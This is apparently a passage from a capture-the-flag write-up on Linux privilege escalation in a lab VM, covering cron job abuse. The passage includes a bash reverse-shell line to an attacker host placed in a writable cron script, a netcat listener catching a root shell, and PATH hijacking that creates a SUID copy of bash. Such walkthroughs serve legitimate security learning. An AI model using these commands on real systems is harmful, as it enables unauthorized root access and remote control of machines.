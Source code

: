 ```gcc -o /tmp/libcrypt.so.1 -shared -fPIC library_path.c```
#
* * * * * root overwrite.sh
* * * * * root /usr/local/bin/compress.sh
```
two last cronjob run each min, ```overwrite.sh``` and ```/usr/local/bin/compress.sh```

```console
user@debian:~$ locate overwrite.sh # find the scrip
/usr/local/bin/overwrite.sh
user@debian:~$ cat /usr/local/bin/overwrite.sh
#!/bin/bash

echo `date` > /tmp/useless
user@debian:~$ nano /usr/local/bin/overwrite.sh # edit the scrip
```
change the content in overwrite.sh to following os you can find script [here](bash_blackdoor.sh)
```bash
#!/bin/bash
bash -i >& /dev/tcp/<kali ip>/<port> 0>&1
```
gratz we just create backdoor, now run netcat and wait for the connection
```console
kali@kali:~/LinuxPrivEsc$ nc -nvlp 1234
listening on [any] 1234 ...
connect to [10.8.14.151] from (UNKNOWN) [10.10.236.173] 56477
bash: no job control in this shell
root@debian:~# whoami
whoami
root
```

# Task 9: Cron Jobs: PATH Environment Variable 
from last task we notice that the PATH variable starts with /home/user (```PATH=/home/user:/usr/local/sbin:/usr/local/bin:/sbin:/bin:/usr/sbin:/usr/bin```) which is our user's home directory. We can create a new file call  overwrite.sh and make it do something else, forinstance; copy create a new bash. So ```nano overwrite.sh``` and add this:
```bash
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```

```console
user@debian:~$ chmod +x /home/user/overwrite.sh # make it executable and wait 1 min for cron job run
user@debian:~$ /tmp/rootbash -p # now run it
rootbash-4.1# whoami
root
```

note that the cron job will go thought the path one by one, so you can put the script in any directory that included in the path. It is important to know that it is only work with cron job that a absolute path is not givven.
